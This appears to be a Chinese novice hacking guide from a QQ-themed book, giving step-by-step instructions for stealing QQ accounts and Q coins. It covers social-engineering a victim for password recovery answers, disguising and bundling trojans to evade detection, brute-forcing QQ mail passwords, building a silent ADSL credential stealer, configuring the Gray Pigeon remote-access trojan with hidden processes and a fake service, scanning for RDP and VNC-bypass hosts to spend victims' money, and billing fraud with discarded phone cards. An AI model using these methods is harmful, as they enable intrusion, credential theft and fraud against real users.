不了，工作了。我妈说我不是学习的那块料。（使出小女孩的杀招）

★心若无尘★ 19:18:47
晕，那你做什么工作？（我、我是个骗子，嘿嘿）

==小猪哼哼== 19:19:30
我是做服装的，哥哥喜欢金庸的歌？
```


……（废话省略）

去试一下再说！答案：XX！  
成功！（这么容易就搞到了，心里好开心）  
再看一下他的 QQ 密码保护提问问题，嘿嘿~和邮箱一样！闪人咯！！

心中窃喜，先去他邮箱找回密码试试。居然进去了，进邮箱还差一步继续，他的邮箱提问问题是：我的家乡在哪里？先把他 QQ 详细资料里填的试试，不对？那就继续套他！


有人还要问，那他如果用身份证注册的怎么办？

因为要使用 QQ 密码保护，就必须填写身份证号码。怎么才能弄到这个呢？从上面的聊天记录我们已经套来他的生日，可以推断他是个大学生，也快毕业了。现流行网上求职，这样的网站有很多。我找了一个他所在城市的招聘网站，注册这些网站多半会要求报上身份证号码。骇客登录这些网站，试着用相同的用户名和密码（很多网友大多都使用相同的用户名和密码），碰巧他确实在该网站注册了账户，并确实也使用了和电子邮箱一样的用户名和口令。于是我以她的身份登录了网站，打开他的个人档案，结果顺利弄到了身份证号码。下面就不用说了吧，相信读者已经知道了——现在要做的就是跑到腾讯 QQ 密码保护修改的页面，把他的资料改得干干净净。这样，他的 QQ 号码就永远失去了。

这是比较顺利的一次，只是给大家带一下思路。有很多这方面的东西希望大家去探索。通过以上的事例，大家会对社会工程学有一个大概的了解，同时也给我们敲响了警钟！不同的服务不要使用相同的用户和密码，尤其是邮箱密码不要和取回密码相同！否则等到被盗了就会后悔莫及了！

### 木马的伪装

通常配置出来的木马都很显眼，很容易被人看出来。那就要来伪装一下了，让别人看起来木马是正常的程序，愿意双击运行，才能提高我们的放马效率。和正常的文件捆绑在一起，来达到欺骗对方从而运行捆绑的木马程序。捆绑后的文件很有迷惑性，再加上木马一般在后台运行，用户点击后不会出现什么异状，往往会在不知不觉中中招。

### 第一招：图标伪装

在 Windows 系统中，每种文件类型使用不同的图标进行表示，通过一种图标就可以轻易地判断出这是哪种文件类型。为了迷惑对方，可以将木马服务端程序的图标换成一些常见文件类型的图标，这样当用户看到一个文本文档的图标时，很可能会毫无戒心地双击运行。文中给出了“图标易换器（图1）”的使用方法：选择原图标、选择新图标或对应 EXE 文件，最后点击替换即可。


### 第二招：改名换姓

选择一个迷惑性强的文件名，例如把木马图标替换为图片文件图标，再把木马文件名改成“漂亮小妹妹”等，容易诱导目标点击。文中还强调：无论如何伪装，后缀必须是可执行扩展名（如 EXE、COM、BAT、PIF、CMD 等）才能运行。由于 Windows 默认隐藏已知扩展名，建议在资源管理器中取消“隐藏已知文件类型的扩展名”，以识别类似“xxx.bmp.exe”的伪装文件。

#### 第三招：文件捆绑

文件捆绑是利用捆绑器将木马服务端与正常文件绑定，使其看起来像普通文件。文中推荐了多个捆绑器并介绍了其基本思路与操作。

### 1. 菜鸟之家捆绑器（图2）

先选择需要捆绑的两个文件（通常为正常文件与木马文件），再设置生成文件的位置和名称。可更换图标、修改文件属性（如系统/隐藏属性），最后开始捆绑。


### 2. 极限居超级捆绑器（图3）

该捆绑器功能较丰富：可设置版本信息、释放路径、自动删除、是否压缩/运行等；支持多文件捆绑，并可分别设置每个文件释放后的动作。还可配置“包含版本信息”中的描述、版权、产品版本、产品名称、公  
司、内部名称等。有了这些，就不怕别人察看我们的捆绑后文件的属性了。

再谈一下这个软件提供的压缩功能，我认为不错。因为大多的捆绑检测工具会检查一个文件内包含多少个文件头来确定一个文件是否被捆绑。如果把捆绑的文件都压缩呢，它就可以把文件的文件头给变形，然后再在释放的时候解压缩并执行。这样的捆绑文件就不会被捆绑检测工具所发现了。


### 3. 火狐核心捆绑器（图4）

这款软件使用很简单，界面小巧，先选择主文件，也就是正常的文件。选择我们的木马程序，点击捆绑按钮，就生成了。


### 4. KENDY 文件捆绑器（图5）

它可以把 2 个文件捆绑成一个，还提供了压缩功能。


选择第一个、第二个文件后，选择一个图标。勾选上压缩功能，这样就设置完成了，点击捆绑就可以了。

### 5. 土耳其捆绑器（图6）

这款捆绑器是由土耳其的兄弟制作的。可以更改图标，捆绑多个文件，可以设置文件释放后是否执行。

在表格地方点击右键，选择添加文件，选择好后程序会给出提示，让你选择文件在释放后是否执行，点击“是”就是执行了。然后点击查找图标按钮来选择图标。如果没有现成的图标的话，可以点击“图标猎手”来选一个 EXE 文件，那么图标就是你选择的 EXE 文件的图标了。


#### 第四招：检测捆绑工具

说完了捆绑器的使用，很多人就喜欢乱捆一气。当我们从网上淘到好东西的时候，怎么知道它有没有被捆绑了什么东西呢？这里就来为大家介绍几款检测文件是否被捆绑的工具。

使用木马捆绑克星等程序检查可疑的可执行文件。当文件进行了捆绑，程序就会出现类似“文件可能经过捆绑，请小心使用！”这样的提示。木马捆绑克星除了能检测出可执行文件中的其他程序，而且还能把捆绑在其中的程序分离出来。

### 1. 数据捆绑检测器（图7）

这个软件使用很简单，点击“选择文件”选择你觉得可疑的文件，它就会自动检测了。如果有额外数据呢，它就会自动显示了。可以选择“函数调用情况”来查看这个文件调用的函数，大多数的捆绑器会调用 ShellExecute 这个函数（图8）。


### 2. MT 捆绑克星（图9）

这款软件的检测效果不错，推荐使用。


点击“浏览”选择要检测的文件，再点击“分析”按钮就可以分析出结果了。

### 3. 魔龙捆绑检测（图10）

这款软件由 [E.S.T] 出品，可以分析出有几个文件头，还可以自动处理文件。点击浏览查找文件，点击“开始检测”按钮就可以检测了。


### 第五招：自我销毁

如果你运行了一个木马后，它没反应，那么你会有什么想法呢？肯定在想它是不是木马吧。现在一些木马设计了自我销毁的功能，当它把自己拷贝到系统目录或其他目录后，它会把自己删除，让你无据可查。很强悍吧！比如现在的阿拉 QQ 大盗、鸽子、PcShare 就提供这个功能。


如果你看中一个好 QQ 号码，但是利用各种方法又得不到，那就尝试去破解他的 QQ 邮箱吧！为什么？因为 QQ 邮箱和 QQ 使用的是相同的密码，账号就是他的 QQ 号码了。怎么样？有想法了吧？主要是腾讯为了我们使用 QQ 邮箱方便，支持了 POP3、SMTP，使我们可以使用 FOXMAIL 来收发信件，但是它也忽略了一个地方，那就是破解 QQ 邮箱密码来得到 QQ 密码。我们就看看是怎么个破解法。


首先，请出破解利器 HScan 扫描器来。这款软件可以多线程方式对指定 IP 段（指定主机）或主机列表进行检测。破解 QQ 邮箱我们要用到的是 POP3 弱口令账号扫描和 SMTP 弱口令账号扫描。这 2 个你选哪个都可以，因为 SMTP 是发信的，POP3 是收信的，都需要身份验证的。就选择 POP3 吧！


接下来要生成 QQ 号码列表，当然如果你是针对一个 QQ 号的时候就可以跳过了。打开 QQ 号码生成器，输入要扫的 QQ 号码段，从多少到多少你自己定就 OK 了！密码我们随便输入，点击生成，它就会自动显示出来了（图1）。再选择另存，随便找个地方存下来。然后再打开它，把里面所有的“——[22]”统统去掉，只保留下 QQ 号码，一行一个。推荐利用记事本的替换功能把这些字符替换为空就可以了（图2）！把内容全部选中，复制。来到 HScan 的目录里，找到 conf 文件夹里的 pop_user.dic 文件，打开后替换掉全部的内容（图3），保存。


名字典或其他密码生成工具生成 QQ 密码文件，同样也是一行一个密码。把全部的密码和 QQ 号码一样，替换掉 conf 文件夹里的 `pop_pass.dic` 文件里的内容（图4）。我这里为了测试方便，就直接输入我的 QQ 密码了。准备条件做好了，下面开始来真格的了。

最后，要知道 `pop3.qq.com` 的 IP 地址，那就使用 PING 命令来查询吧（图5）！在 CMD 中输入 `ping pop3.qq.com`，把 IP 地址保存出来。打开 HScan，点击菜单里的模块来设置一下，只选择“Check POP3 Weak Accounts”（图6），意思是检测 POP3 的弱口令。再点击菜单里面的参数（图7），起始 IP 和结束 IP 均为 `pop3.qq.com` 的 IP 地址，也就是说针对一台主机扫描。记着把“扫描前 PING”这个选项去掉哦！没啥用，还会影响效果。点击菜单里面的开始，它就开始扫描了，不一会儿结果出来了（图8）！我的 2 个 QQ 的密码被破解出来了，只要你的字典够强大，什么号都能破解！同时程序还会生成一个报告，使结果更加直观和便于保存了（图9）！很简单吧！还不快试试？

## 其他渠道之 ADSL 帐号密码获取

本文将向各位菜鸟朋友们介绍充 QB 时如何获取 ADSL 帐号密码。只要你跟着我说的步骤一步一步来做，就能打造出一款 ADSL 帐号密码一键获取器，OK，Let’s GO！

首先你要确保你的网络是 ADSL 上网（有些局域网的 ADSL 用户是不需要帐号密码的，一般帐号密码都在具有公网 IP 的那台上面）。这里需要用到一款工具 Dialupass，这是一款获取本机拨号上网帐号和密码的小工具，它是 GUI 界面的。

### 小提示

什么是 GUI？所谓 GUI 就是图形用户界面的简写，只要是双击运行后有图形出现的，我们都能将其称为 GUI 界面！一般 Win32 下的程序大多是 GUI 界面的！

我们来双击运行看看效果，如图1。可以马上看到自己拨号的帐号和密码，是不是很强大？但是有一个问题，不知道读者们发现没有？就是它运行后会弹出框，我们不可能直接在网吧上双击运行它吧，这样不就是等于告诉管理员他的电脑被人入侵了！

OK，现在我们将它做成双击运行后在指定地方生成一个 txt 文件，里面保存着 ADSL 帐号密码，并且运行后没有任何反应。其实现原理就是，将 Dialupass 制作成一个自解压文件，利用它自带的命令打造出一款一键获取帐号密码工具。

`adlspass.exe /allusers /stext "c:\pass.txt"`

首先，右键单击 `Dialupass.exe` 选择“添加到压缩文件”（图2）。打开后弹出“压缩文件名和参数”对话框（图3）。我们将“压缩选项”中的“创建自解压格式压缩文件”前面的勾选上。可看到“压缩文件名”变成了 `.exe` 结尾的，然后切换到“高级”选项页（图4）。

点击那个“自解压选项”，弹出“高级自解压选项”。我们在“解压路径”中输入 `c:\temp`，在下面的“解压后运行”中输入命令，如图5。

`adlspass.exe /allusers /stext "c:\20ww.txt"`

这条命令的意思就是双击运行这个自解压文件后，在 C 盘的 temp 目录下生成“20ww.txt”的文本，里面就保存着帐号密码。然后我们切换到“模式”选项页，在“安静模式”中选择“全部隐藏”，下面的“覆盖方式”中选择“覆盖所有文件”，如图6。

到这里基本上就完成了。你还可以切换到“文本和图标”选项页选择一个好看的文件图标，图7。最后点击确定，就会在同目录下生成一个自解压文件了。你可以双击运行试试看，是不是没有任何反应？而 C 盘已经生成了 `20ww.txt`。

## 灰鸽子使用全解 1.2

在《QQ 宝典1》中很多读者反映说灰鸽子还是不知道如何使用，所以本文我给大家演示下它的使用方法以及配置过程，其他版本的鸽子大同小异。

我们双击打开“灰鸽子”，界面很清晰明了，如图1。很多菜鸟一看到灰鸽子的界面就感觉非常复杂，其实并不是这样。只要你跟着我一步一步地来做，一定可以学会如何使用的！

在开始前，我们需要一个支持 FTP 上传的空间，这些空间网上很多。因为使用灰鸽子是反向连接，需要一个能得到你 IP 的地方；灰鸽子支持 FTP 更新 IP，所以需要支持 FTP 上传的空间。

可在中国免费资源网等地方寻找，文中给出示例网址：`www.jn001.net`、`http://www.gaya.cn/` 等。

### 小知识：什么是 FTP？

FTP（File Transfer Protocol）是文件传输协议。其主要作用是让用户连接远程计算机（运行 FTP 服务器程序），查看、下载或上传文件。文中还介绍了 FTP 客户端/服务器工作方式及基本原理。

打开灰鸽子后，我们先来配置服务端，单击灰鸽子上面的红色按钮“配置服务端程序”，如图2；或者通过左上角“文件”=>“配置服务端程序”，弹出“服务器配置窗口”，如图3。

首先看到的是“IP 通知 http 访问地址，DNS 解析域名或固定 IP”框，这里填写 FTP 更新的 web 地址，例如：`http://www.fu8.com/test.txt`。

这个地址就是通过灰鸽子来进行 FTP 更新的地址。若通过动态域名更新，可直接输入动态域名，记得前面加 `http://`。

“上线图像”可选择一个肉鸡上线后的图标；“上线分组”用于区分不同肉鸡；“上线备注”为上线后的备注信息，可在命令广播中看到。

“连接密码”在鸽子界面右上部的输入框中设置，是连接肉鸡时使用的密码。根据情况来设置一个，如图4。

“历史配置记录”：是你以前配置鸽子时留下的记录，第一次配置的话就不用管这个。

设置好后，切换到“安装选项”，如图5。

“安装路径”：鸽子服务端的安装路径，后面的名字大家记得修改一个迷惑人的就可以，这里我选择 `$(WinDir)\svchost.exe`。

“程序图标”：这个是选择服务端的图标，你可以点击右边的“选择图标”按钮自行选择，默认也可以。

下面的几个选项中大家只勾选上“安装成功后自动删除安装文件”就可以了，其他两个记得不用选。

这里配置 OK 后，我们切换到“启动项设置”选项页，如图6。

其中的服务名称我们要起得跟系统中自带的像一点。我们到“我的电脑”上右键单击然后选择“管理”，在弹出的“计算机管理”窗口中展开到“服务和应用程序”=>“服务”，如图7、图8。

在右边的服务列表中随便选择一个系统自带的服务双击左键，在鸽子的“显示名称”中输入计算机管理器服务里的“显示名称”……当然不能完全一样，要不系统会产生冲突的，我们在后面加个字母 “S”。在鸽子的“服务名称”中也是一样，输入完成后在后面也随便加个字母，如图9。

“描述信息”中可以完全复制计算机管理器服务中你选择的那个系统服务的描述，配置完成后如图10。

这样的话，没有一定经验的管理员就很难发现了！再切换到“代理服务”选项卡，如图11。

## 第七章 QQ 充值大曝光

这两个 HTTP 代理器和 SOCKS5 代理器，我们都不用选择，默认就可以，因为对方中了灰鸽子后，在鸽子的“远程控制命令”=>“代理服务”中已经有了这个功能，如图12。

我们再切换到“高级选项”选项页，如图13。上面默认已经勾选上了“使用 IEXPLORE.EXE 进程启动服务端程序”选项，我们再将下面的“隐藏服务端进程，只支持 Win2000/XP 系统”勾选上，这样在 Windows 2000 和 Windows XP 系统中就会自动隐藏服务了（有点像 ROOTKIT 哦）！

下面的加壳选项我们选择“使用 UPX 加壳”。到这里基本上已经配置完成了。我们再看看“插件功能”选项页，如图14。我们可以加载一些插件，比如键盘记录插件等等，不用设置也不会影响使用的！

好的，配置完成了。最后在“文件路径”中单击后面的空白按钮，选择一个保存路径以及保存名称，点击保存，再点击灰鸽子下面的“生成服务器”，等进度条走完提示保存成功，如图15。到此我们的鸽子就配置成功了。

下面要做的就是自己运行或者在虚拟机中运行看看，是否在更新 IP 后能正常上线。OK，我们双击运行生成的服务端，可以看到运行后服务端自动删除自身了（就是消失了，呵呵）！来到灰鸽子中配置下自动上线的 IP，来更新上线的 IP，在鸽子中点击上面的第一个“自动上线”按钮，如图16。打开自动上线窗口如图17。

在“FTP 服务器”中输入你 FTP 的地址，后面的“端口”中输入你 FTP 服务器的端口。“连接类型”中默认就可以。“存放 IP 的文件”根据自己的 FTP 路径来设置，比如你的 `IP.TXT` 存放在 `www` 目录下，那么这里就填写“/www/ip.txt”。“IP 文件内容：”这个选择你的公网 IP，注意一定要是公网 IP，IP 后面跟的是端口号，这个端口号默认是 8000，你也可以单击灰鸽子上方的“设置”=>“系统设置”来进行更改，如图18、图19。

只要后面的端口跟这里的设置一致就可以了！来看看我的配置，如图20。然后点击“更新 IP 到 FTP 空间”，随后会听到灰鸽子 MM 提示“自动上线更新成功请等待服务端连接”，下方也会有提示，如图21。

更新后等待一会儿，我们刚刚自己运行的服务端就马上上线了，如图22。怎么样，是不是很有成就感了？下面你就可以用自己来练练手了，灰鸽子可以进行文件管理、屏幕监视、语音对话等等的功能，你可以自己不断探索，想成功实践是少不了的！

## 刷 QB 要趁步（7.3）

说起现在无论是刷 QB 还是刷服务，都不是一件简单的活了。以前那种开个代理就能随便刷的年代，已经一去不复返了。现在增加的多次验证、消费认证码、插件和电话号码验证等一座座大山挡在我们面前，使得刷 Q 形式变得越来越严峻。破解插件？我们小菜可做不来。社会工程学？那是要人品保证的，你行吗？我还是给大家说说简单可行的办法吧。

最近听朋友说，使用 3389 刷 QB 挺爽，而且什么都不用填写，直接登录到互联星空充就 OK！爽吧？下面我就告诉大家怎么找 3389 肉鸡。先打开 ShowIP 来查一下 IP 段（图1），这里要扫北京网通 ADSL 的机器，就填写上“网通 ADSL”就可以了。

它是一款小巧的搜索共享资源及 FTP 共享的工具，我们就用它扫描 3389 端口。先来填写网段信息。如果是要扫上面的网段的话，就填写 `61.149.40`，不要弄错哦！然后把端口改成 3389，再点击“大范围端口扫描”（图3），会弹出一个对话框，这里可以设置扫描范围，可以选择附近的几个 C 网段，也可以指定网段。

选择扫附近的 C 网段（可以自己调节附近的范围），一般不选择“先 PING 后连”！为了节省时间，再把端口改成 3389 就可以了！点开始，现在程序就自动开始扫描了……这个时候可以去看会儿电视，听听歌。待会儿回来的时候就会看到一片一片开 3389 的机器哦，看看我的半小时成果吧（图4）！

下面就连接一个试试，要找 XP 的机器（图5）（2003 和 2000 的机器都放过），输入用户名为 `new`，密码为空来登录。为什么呢？原因是北京的很多装电脑的地方为了方便大多都用 GHOST 版本，大多都是 JUJUMAO 发布的。这个版本会自动建立用户名为 `new`、密码为空的管理员账户，而且还开 3389 哦！所以给我们留下了可乘之机。随便挑个连接一下，输入帐号和密码，成功登录。他正在电脑旁，而且正在玩游戏呢（图6）。下面要等到他们都睡了后或者没有用电脑的时候再进去刷 QB！因为 XP 的 3389 默认情况下只允许 1 个用户连接。如果你登录了，那他就会被踢下去；如果他登录了，你就会被踢下去的。

看看我被踢的截图吧（图7）！所以，一定要等到没人的时候再去，一般凌晨 2 点到 4 点这个时候人在电脑前的比较少。当我们 3389 登录上去之后，由于所有的操作和本地没什么两样了，所以我们就直接打开 IE 登录互联星空给自己的 QQ 号充 QB 吧！

补充：在截稿前，北京网通做了这方面的防护，要求在使用 ADSL 进行消费的时候输入 ADSL 绑定电话的后 4 位来验证身份，这就给我们增加了难度。一开始的时候可以使用溯雪来把后 4 位电话号码给暴力破解出来，但紧接着网通又给验证页面加了个验证码，所以就没写关于使用溯雪破解，这也就麻烦了！但是你也不着急，大家可以根据社会工程学的文章来找到他的电话号码。还有个好消息，山东网通 ADSL 也可以充，而且没有后 4 位电话号码的验证哦，特别是潍坊地区的特别多，大家可以找来搞一下。

还有就是针对电信用户，听石头说有些地方的 VNET 有插件，该插件会在你登录充值页面的时候检查是否有 3389 登录。如果你是用 3389 登录的，就会把 3389 连接断掉。那我们怎么办呢？就这样放弃？那怎么行！我们可以登录 3389 后再给他种上钩子，然后再使用钩子进行远程操作。爽吧！

除了通过 3389 来找肉鸡外，还可以利用 VNC。前些时候 VNC 暴出了服务端存在远程认证绕过漏洞，如果有漏洞的话，就可以不用密码直接登录主机了！很爽吧！几乎就是秒杀嘛！那么我们就来看看这种 VNC 肉鸡要怎么抓。首先请出我们的扫描工具 `vnc_bypauth`，这个工具是在 CMD 下使用的，运行一下先看看使用格式（图8）。举个例子：`\hack\vnc\vnc_bypauth.exe -i 202.102.128.1-202.102.128.254 -p 5900 -vnc`（图9）。

它表示扫描 `202.102.128.1` 到 `202.102.128.254` 这个网段，`5900` 是扫描的端口，一般的 VNC 端口都是 5900。选择好网段后就可以回车来扫描了。只要发现 `FOUND` 的值不为 0，那就说明你扫到有漏洞的主机了。在扫描完毕后，程序会自动生成一个名为 `vnc_bypauth.txt` 的文本文件（图10），里面记录着你扫描了哪些 IP、哪些 IP 存在 VNC 漏洞。

……如果你扫到了漏洞主机，那么你肯定要问，怎么来连接漏洞主机呢？我们有专门的连接器（图11）。只要你输入漏洞主机的 IP 地址，它就会自动进行连接了，十分方便啊！不过要注意，有些主机一般是锁定或者没登录的（图12），那只有等管理员来给我们解开了。

除此之外，还可以使用刚才扫描 3389 用到的工具来扫描 VNC 端口。只要把主界面上的端口地址改成 5900（图13），然后再把“大范围扫描端口”中的端口也改成 5900，就可以扫描了（图14）！大家来看看我的扫描成果（图15）。通过这些，大家可以发现这个软件可以用来办很多事！比如可以用来扫描 WINDOWS 共享等等很多的！想得到就做得到！所以我们以后要活学活用，勤思考。

### 手机卡刷QQ也疯狂

使用手机卡也能刷QQ，这太疯狂了吧，可事实就是如此。这个方法利用的是经营商与移动、电信等运营商结算存在很长一段时差，也是扣费不同步的原理。简单来说，就是使用一张即将报废的手机卡开通各种QQ服务，开通过后就将这张卡丢掉不用了，而腾讯的系统仍然是扣这张废卡上的费用。在开通QQ服务时，必须一次性用完，绝对不能今天用一点，明天再用一点。

我们必须得有张手机卡，最好是移动全球通的号码，或者是动感地带的号码。而手机卡内必须得有余额，几毛钱即可，只要是还未停机的就行。当卡用完后手机号就欠费停机了，所以我们要使用不准备要的手机号来刷。目前这样的号码应该很容易得到，实在没有的，就去买张新卡，部分地区还有更便宜合适的，淘宝上也有卖的。别怕投入，你放心，你得到的收获肯定比投入的多得多，淘宝上很多商人就是这样做的。

下面是使用一张手机卡开通一些QQ终身服务的方法：

### 1. 终身QQ会员
- 移动用户发送短信 55 至 1700；
- 联通用户发送短信 55 至 9777；
- 电信小灵通用户发送短信 55 至 1700 就可以了。
- 官方介绍网址是 `http://paycenter.qq.com/cgi-bin/...`

### 2. 终身QQ红钻贵族
移动用户发送 QQF 到 170035，联通用户发送 QQF 到 9777，开通时尚顾问服务，就可以获赠QQ秀红钻贵族！官方介绍网址是 http://paycenter.qq.com/cgi-bin/...service_type=qqshow。

### 3. 终身QQ黄钻贵族
移动用户发送 qqh 到 1700，联通用户发送 qqh 到 9777，就可以开通QQ黄钻贵族了。官方介绍网址是 http://paycenter.qq.com/cgi-bin/...=home&subtype=1。

### 4. 终身QQ蓝钻贵族
移动用户发送短信 QQY 到 1700341，联通用户发送短信 QQY 到 9777（上海、浙江、福建、四川地区的用户则发送到 3777341），电信小灵通用户发送短信 QQY 到 1700341，网通小灵通用户发送短信 QQY 到 17000341；系统提示成功开通游戏秘书后，需回复“QQ号码##密码”才能免费获赠超级玩家。要关闭服务的话则是发送 GBY。官方介绍网址是 http://game.qq.com/gamevip/。

### 5. 终身QQ交友高级会员
使用手机的用户发送 love 到 1700（移动）/9777（联通），小灵通用户发送 love 到 1700（电信）/17000（网通）。官方介绍网址是 http://love.qq.com/hi_l.shtml。

### 6. 终身短信超人
移动用户发送 QE 到 1700，联通用户发送 QE 到 3777，电信小灵通用户发送 MQH 到 1700，网通小灵通用户发送 MQH 到 17000。官方介绍网址是 http://super.qq.com/。

### 7. 终身QQ魔法表情会员
方法同上边讲的开黄钻（现开黄钻是赠送QQ魔法表情的）是一样的，官方介绍网址是 http://magic.qq.com/mall/。

### 8. 终身开QQ贺卡
我们注册黄钻贵族或QQ会员（方法同上），就会立刻免费无限制发送贺卡！官方介绍网址是 http://ecard.qq.com/client/index.shtml?recvuin=&recvnick=。

### 9. 开QQ堂游戏紫钻贵族
使用固定电话或小灵通拨打 16885886（部分地区请以当地的腾讯特服号码为准），按提示音按 5 键即可开通，官方介绍网址是 http://qqtang.qq.com/vip/。

### 10. QQ手机绑定
我们需要通过手机编辑短信，输入“BD#您的QQ号码#你的QQ密码”发送到 1700（移动用户）或 9777（联通用户）就可以将手机与QQ号码绑定（“#”可用空格代替），也会获得QQ面板上的银色手机图标。官方介绍网址是 http://bd.qq.com/。

接下来是使用手机刷Q币的方法（以下一些方法有地域或时效性，不保证长期能用）：我们最好是使用一张里面有 50 元的新卡刷，订好彩信后等 3 天，然后回复它就会给你 QB 的，接下来立刻打电话，不过打电话可能会造成封号，请大家小心！

50 元的卡通常在市面上 30-45 元就可以买到，目前Q币的价格为 0.6 元一个，一张半废卡可以刷几百个（刷到的Q币都在手机账户中，可以到 http://mbank.qq.com 登录手机账户）。

如果电脑上安装有 3721 之类可以拦截广告的软件，最好先把这类软件关闭了，因为可能会把弹出来的提示网页关掉，使操作失败！我们登录 http://service.qq.com/，第一次需要选择“申请手机密码”，手机收到验证码后，申请成功，修改密码吧；等下申请 44 个配额要用的（如果你已经有了手机卡号的密码，这步可以跳过），接着订阅短信宝典，每月就可以获赠 65 个QQ币以上。

我们登录 http://pay.qq.com 页面，会弹出广告页，依次订阅：

### 1. 新闻头条每月获赠30个Q币
网址是 http://pay.qq.com/mobile/a040225_051.shtml，活动期间 2004 年 7 月 1 日前（不包括 7 月 1 日）开通“新闻头条”的用户，除了以前每月实时获赠 30 个Q币外，同时每月获得以下赠送：价值 30 元的QQ秀配额，价值 30 元的 50M QQ 邮箱，价值 90 元的 100 张QQ贺卡，当月未发完的贺卡不做累积（如果是贺卡包月用户，则不再追加 100 张贺卡赠送），价值 18 元的 18 万游戏币（如要获赠，请至少登录一次QQ游戏大厅）。

赠送规则如下：
- 除Q币外其它优惠均在开通第二个月的月初的第二个工作日前获得赠送（比如 5 月份是 5 月 8 日，6 月份是 6 月 2 日……）。
- 关闭“新闻头条”将不会再获得相关赠送。
- 一经订阅，每月持续赠送，直到用户撤销订阅本业务，不受本次活动时间影响（这个是重点）！
- 除Q币以外的其它礼包物品订阅当月不予赠送，均在下月初赠送。
- 每个QQ号码限获赠一份大礼包（Q币获赠不限次数）。

### 2. 实用英语每月获赠20个Q币
网址是 http://pay.qq.com/mobile/a040225_01.shtml。

### 3. 社区经典每月获赠10个Q币
网址是 http://pay.qq.com/mobile/a040225_02.shtml。

### 4. 订阅********获赠5个Q币
网址是 http://pay.qq.com/mobile/a040225_06.shtml。

注意：当月 20 日（含 20 日）前订阅，将立即收取当月信息费并获赠 30Q币；当月 30 日后订阅，将从下月开始收取信息费并获赠 30Q币，当月不收取信息费。自订阅的下个月起，每月 1 日为包月订阅用户赠送 30Q币。

### 5. 单条短信获赠1、2个Q币
网址是 http://pay.qq.com/mobile/a040225_03.shtml。

每订一条，赠送一次，而且是即时赠送的。订 1 个Q币的可以申请 30 次，订满 30 次，那就等下个月再订了哦。订 2 个Q币的可以申请 15 次，订满 15 次，也要等下个月再能订！订满了系统会提示：操作成功，单条再次订阅成功，但是本月Q币赠送已达上限 30 个，本次订阅不收费！

算一下吧，我们订阅短信宝典，30+20+10+1×30+2×15，一共是 120 个，其中前面的（30+20+10+5）65 个，每个月腾讯都会自动存到你的账户的；另外的 60 个，你就花 20 分钟自己搞定它。而且这个也是一经订阅，每月持续赠送，直到用户撤销订阅本业务；不受本次活动时间影响的哟。

## 玩QQ大富翁，可得到30QB（一个月最多得30个）

移动用户发送 QB 到 1700，联通用户发送 QB 到 9777 就可以使用，这个游戏中题目涵盖百科知识、音乐、影视、中外历史地理、科技知识、体育知识、中国古代文学等方面，数量 1 万多题。我们在增长知识的同时，还可以获赠Q币，真是太爽。

## “Q币大富翁”的资费和开通地区：

移动开通范围是全国地区，联通开通范围是江苏、辽宁、湖南、湖北、吉林、山东、黑龙江、浙江、四川、重庆。使用资费是 1 元/条或 2 元/条，同时获赠等价的Q币！

## 得44个配额的方法：

我们在前边不是已经申请了手机在QQ网站的密码了吗？好，现在去 http://qqx.qq.com/qqxap_mo.shtml 申请QQ行号码吧，一个月可以申请 11 个号码，每个号码都会有 4 个Q币配额，一共 44 个配额哦！如果我们申请QQ秀包月的话，每月有无限的QQ秀可以使用，还配送 20 QQ秀配额的。

介绍了这么多的方法，现在大家都知道如何使用手机卡来开通服务及得到Q币了吧！